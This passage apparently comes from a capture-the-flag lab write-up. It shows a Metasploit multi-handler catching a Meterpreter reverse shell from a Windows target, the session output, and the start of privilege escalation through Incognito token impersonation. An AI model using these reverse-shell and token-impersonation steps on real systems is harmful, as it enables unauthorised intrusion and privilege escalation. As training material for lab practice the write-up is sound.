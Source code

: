4. Set up a Metasploit multi-handler:
   ```
   msf6 > use exploit/multi/handler
   msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LHOST 10.11.145.45
   msf6 exploit(multi/handler) > set LPORT 6060
   msf6 exploit(multi/handler) > run
   ```

5. Execute the shell on the target:
   ```
   PS C:\Users\bruce\Desktop> Start-Process shell.exe
   ```

6. A Meterpreter session is established:
   ```
   [*] Started reverse TCP handler on 10.11.145.45:6060
   [*] Sending stage (175686 bytes) to 10.10.195.189
   [*] Meterpreter session 1 opened (10.11.145.45:6060 -> 10.10.195.189:49214)
   meterpreter > dir
   Listing: C:\Users\bruce\Desktop
   ===============================
   Mode              Size   Type  Last modified              Name
   ----              ----   ----  -------------              ----
   100666/rw-rw-rw-  282    fil   2019-10-25 16:51:28 -0400  desktop.ini
   100777/rwxrwxrwx  73802  fil   2025-08-14 15:49:16 -0400  shell.exe
   100666/rw-rw-rw-  32     fil   2019-10-25 18:22:36 -0400  user.txt
   ```

---

## Privilege Escalation

### Token Impersonation with Incognito
Load the `incognito` extension in Meterpreter to impersonate user tokens:
```
meterpreter > load incognito
Loading extension incognito...Success.
```

List available delegation tokens:
```
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
```
